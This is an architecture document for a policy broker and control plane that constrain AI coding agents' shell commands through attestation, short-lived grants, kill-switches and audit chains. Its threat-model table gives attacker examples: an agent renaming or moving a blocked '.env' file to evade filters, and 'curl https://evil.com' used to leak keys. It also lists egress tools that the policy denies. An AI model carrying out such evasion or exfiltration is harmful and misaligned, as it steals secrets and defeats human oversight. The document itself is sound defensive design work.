





# Architecture & Technical Design: Bounded Authority Plane (BAP)

This document specifies the technical architecture, security model, component design, and operational state machines of the **Bounded Authority Plane (BAP)**.

---

## 1. System Topology & Overview

The Bounded Authority Plane (BAP) enforces zero-trust execution boundaries, cryptographic attestation, and least-privilege authority over AI developer agents (such as Claude Code, GitHub Copilot CLI, and autonomous worker agents).

The architecture consists of two primary operational pillars:
1. **`bapedge` (Local Trusted Daemon / LTD)**: A lightweight, sub-2ms latency zero-trust execution broker and Policy Enforcement Point (PEP) residing directly on developer machines or containerized worker nodes.
2. **`bapcontrolplane`**: A centralized, strictly API-driven control plane responsible for agent identity, cryptographic binary attestation, ephemeral on-behalf-of (OBO) authority grants, central Cedar policy distribution, tamper-evident audit log aggregation, and fleet-wide kill-switch coordination.

---

## 2. Component Design

### 2.1. `bapedge` — Local Trusted Daemon (LTD)

`bapedge` is the local gatekeeper. Every shell command, script, or tool invocation requested by an AI agent must be intercepted and evaluated by `bapedge` before process creation.

Key internals of `bapedge`:
- **In-Process Cedar Engine**: Authored in pure Go, `bapedge` embeds the Cedar evaluation engine to eliminate inter-process latency. Policy decisions execute in under 2 milliseconds without blocking the developer workflow.
- **Fail-Secure Architecture**: If neither central control plane nor local cache nor workspace policy is found, `bapedge` explicitly denies execution (`exit code 1`). It **never fails open**.
- **Edge Policy Cache (`~/.ltd/policy/`)**:
  - `policy.cedar`: Authoritative Cedar policies cached from the control plane.
  - `schema.json`: Cedar schema definitions for principal, action, resource, and context.
  - `policy-state.json`: Monotonically increasing version counter, SHA-256 digest, and persistent kill-switch flag.
- **Offline Resilience**:
  When `bapcontrolplane` is offline, degraded, or unreachable due to network partitions, `bapedge` seamlessly falls back to prior verified settings in `~/.ltd/policy/`. Permitted toolchains remain operable without latency penalty; forbidden actions remain strictly denied.
- **Persistent Emergency Lock (Kill-Switch)**:
  If a kill-switch directive was previously received or written to `policy-state.json`, `bapedge` persists `kill_switch: true`. Network disconnection **cannot bypass** an emergency lock.

### 2.2. `bapcontrolplane` — Central Governance Service

`bapcontrolplane` is a lightweight, zero-dependency REST API service designed for central security operations. It has **no UI** and is completely driven by declarative JSON APIs.

Key subsystems of `bapcontrolplane`:
- **Self-Service Agent Registry & OTC Minter**: Application owners pre-register agent instances via `POST /api/v1/agents/pre-register` to receive an ephemeral One-Time Code (`LTD-OTC-XXXX-XXXX`).
- **Binary Attestation Whitelisting**:
  - In `production` profiles: The agent's executable SHA-256 hash must strictly match a pre-registered hash whitelist. Impersonators or modified binaries are rejected with `403 Forbidden`.
  - In `development` profiles: Provides Trust-On-First-Use (TOFU) or flexible hash updates to maximize developer iteration speed while maintaining auditability.
- **Single-Use OTC Burning**: Once an OTC is submitted during enrollment (`POST /api/v1/agents/register`), it is burned immediately. Replay attempts are rejected with `401 Unauthorized`.
- **Short-Lived Ephemeral Authority (OBO JWT)**:
  - Authority is granted in short-lived JWTs (default TTL: 15–30 minutes) carrying bounded scopes (e.g., `["cli:exec"]`).
  - Downstream Policy Enforcement Points (PEPs) or API gateways call `POST /api/v1/grants/consume` to validate and atomically mark a grant consumed, neutralizing token theft and replay attacks.
- **Central Policy Distribution & Remote Sync**:
  - Distributes Cedar policy bundles containing `policy_cedar`, `schema_json`, version, and cryptographic digest.
  - Compares edge version/digest via `POST /api/v1/policy/sync` and responds with `CURRENT`, `UPDATE_REQUIRED`, or `KILL_SWITCH`.
- **Tamper-Evident Audit Chain**:
  - Central audit log ingestion (`POST /api/v1/audit/ingest`) cryptographically links incoming edge telemetry records into an immutable SHA-256 hash chain ($H_n = \text{SHA256}(H_{n-1} \parallel \text{EventData})$). Retroactive log tampering is immediately detectable.

---

## 3. Registration, Attestation, and Enrollment Flow

The following sequence details how an edge agent transitions from an unauthenticated process to an attested, authorized node:

---

## 4. Execution Pipeline & Interceptor Cascades

AI agents attempt command execution through multiple vectors (interactive shell, subprocess spawning, MCP servers). `bapedge` integrates seamlessly via transparent interceptor layers:

---

## 5. Offline Resilience & Fail-Secure State Machine

One of the most critical operational requirements is that **edge agents must continue operating normally if `bapcontrolplane` experiences an outage or network disconnection**.

### Invariants of Offline Operation:
1. **Zero Downtime for Developer Toolchains**: Standard developer operations (`git status`, `npm test`, `python build.py`) evaluate against the local cache in ~1ms without pinging the central server on every command.
2. **Strict Retention of Security Invariants**: Forbid rules (blocking `cat .env`, secret exfiltration via `curl`/`wget`, credential theft from `~/.aws`, evasive renames like `ren .env`) are embedded in the cached Cedar bundle and remain **100% active and enforced offline**.
3. **Fail-Secure Default**: If no cached policy bundle exists and the central control plane is unreachable, the execution broker returns `exit 1`. It never falls back to an unconstrained shell.
4. **Persistent Kill-Switch Across Disconnections**: If `bapcontrolplane` revokes an agent or broadcasts a kill switch, the edge stores `kill_switch: true` in `policy-state.json`. Severing the machine from the network cannot bypass or undo the lock.

---

## 6. SPIFFE Workload Identity, Multi-Instance Fleets & TLS Transport Security

### 6.1. SPIFFE Workload Identity Model
To enable standard zero-trust service mesh and distributed microservice federation, `bapcontrolplane` assigns every enrolled agent an official **SPIFFE Workload Identity** formatted as:
$$\text{spiffe://}\{\text{trust\_domain}\}/\text{app}/\{\text{app\_id}\}/\text{instance}/\{\text{instance\_id}\}$$

- **Trust Domain**: Defaults to `bap.internal` (customizable via `-trust-domain` flag or `BAP_TRUST_DOMAIN` environment variable).
- **App ID**: The application identity under which the agent executes (e.g. `payments-worker`, `code-review-bot`).
- **Instance ID**: Unique per-machine/container identifier (e.g. `node-01-a1b2c3d4`).
- **JWT-SVID Issuance**: Ephemeral authority grants issued by `bapcontrolplane` conform to the SPIFFE JWT-SVID specification:
  - `sub`: Holds the full SPIFFE ID URI (`spiffe://bap.internal/app/payments-worker/instance/node-01-a1b2c3d4`).
  - `spiffe_id`: Explicit claim containing the URI.
  - `instance_id`: Scoped node instance identifier.
  - `aud`: `"bap-edge-broker"`.
  - `iss`: `"bap-controlplane"`.

### 6.2. Multi-Instance Agent Fleets & Quota Management
Modern workloads deploy fleets of identical worker agents (e.g., 50 CI runners or distributed worker containers) sharing one logical application profile. `bapcontrolplane` handles multi-instance fleets cleanly:

1. **Fleet Enrollment Tokens (`BAP-FLEET-...`)**:
   - When pre-registering an application with `max_instances > 1`, the control plane generates a multi-use quota token prefixed with `BAP-FLEET-`.
   - The token tracks `max_instances` and `enrolled_count` atomically under mutex lock.
   - Any registration attempt beyond the quota is rejected with `401 Unauthorized`.
2. **Independent Per-Instance Attestation & Registration**:
   - Each instance sends its own binary SHA-256 hash, hostname, OS, and unique `instance_id`.
   - Each instance receives its own distinct record in the registry (`agent-{app_id}-{instance_id}`) and its own SPIFFE ID.
3. **Instance Liveness & Heartbeats**:
   - Edge instances send periodic heartbeats to `POST /api/v1/instances/heartbeat`.
   - Unhealthy or dead instances can be identified and reclaimed.
4. **Hierarchical Revocation (Instance vs Fleet Kill-Switch)**:
   - **Per-Instance Revocation** (`POST /api/v1/agents/revoke`): Revokes a single compromised instance without affecting other healthy instances in the fleet.
   - **Fleet-Wide Revocation** (`POST /api/v1/apps/revoke`): Emergency kill-switch that revokes **all** instances of an application across the entire infrastructure with a single API call.

### 6.3. HTTPS & TLS Mutual Security
In production, all control plane communication runs over HTTPS:
- **Server TLS Flags**:
  - `-tls`: Enables HTTPS on `bapcontrolplane`.
  - `-tls-cert` and `-tls-key`: Specifies authoritative corporate PKI certificates.
  - `-tls-auto`: Automatically generates an in-memory or on-disk self-signed ECDSA certificate for development/staging, exporting `controlplane-cert.pem` for clients.
- **Edge Client TLS Flags**:
  - `--ca-cert`: Loads custom CA bundle into `x509.CertPool` to verify `bapcontrolplane`.
  - `--insecure`: Bypasses TLS verification in development/test setups.

---

## 7. Threat Model & Mitigations

| Threat ID | Threat Vector | Attacker Action | BAP Mitigation |
| :--- | :--- | :--- | :--- |
| **T1** | **Evasive Renaming & Secret Dumping** | Agent attempts `cat .env`, gets blocked, then tries `ren .env junk` or PowerShell `Move-Item .env` to bypass path filters. | Cedar forbid rules inspect regex/wildcard matches across both command line arguments and executable tokens (normalized to lowercase). All renames, moves, copies, or redirections (`.env > leak.txt`) are explicitly denied. |
| **T2** | **Exfiltration Utilities & Casing Evasion** | Compromised agent executes `curl https://evil.com` or `CURL https://evil.com` to leak keys. | Egress binaries (`curl`, `wget`, `nc`, `ncat`, `ssh`, `socat`, `bitsadmin`, `certutil`) are forbidden at the Cedar layer. `bapedge` normalizes all tokens to lowercase before Cedar evaluation. On Linux, Landlock disables network sockets entirely. |
| **T3** | **Rogue Agent Impersonation** | Malicious binary masquerades as a legitimate edge worker to obtain authority grants. | Control plane requires pre-registration, binary attestation, and SPIFFE identity. In `production` profiles, only whitelisted SHA-256 binary digests can enroll or acquire short-lived grants. |
| **T4** | **Replay Attacks (OTC, Fleet Quota & Grants)** | Attacker intercepts an enrollment code (OTC) or an authority grant JWT from wire or logs. | 1. Single-use OTCs are burned atomically upon first enrollment (`status: consumed`). Replays return `401`. 2. Fleet tokens strictly enforce maximum instance quotas. 3. Grants are short-lived (15-30m) and atomically consumed at downstream PEPs via `/api/v1/grants/consume`. |
| **T5** | **Control Plane Outage Exploitation** | Attacker cuts network connectivity to the control plane, hoping the edge fails open. | Edge defaults to fail-secure. If no cache exists, commands are denied. If cache exists, prior Cedar invariants are strictly enforced offline. |
| **T6** | **Audit Log Tampering** | Attacker modifies local audit log files to erase evidence of denied unauthorized operations. | Audit records are streamed to `bapcontrolplane` and hashed into a sequential SHA-256 chain ($H_n = \text{SHA256}(H_{n-1} \parallel \text{Event})$). Any retroactive tampering breaks hash verification. |
| **T7** | **Fleet Instance Impersonation & Rogue Scaling** | Attacker spins up unauthorized excess instances under an existing app ID. | Fleet OTC enforces strict quota limits (`max_instances`). Each instance undergoes independent binary attestation and receives an isolated SPIFFE workload identity. |

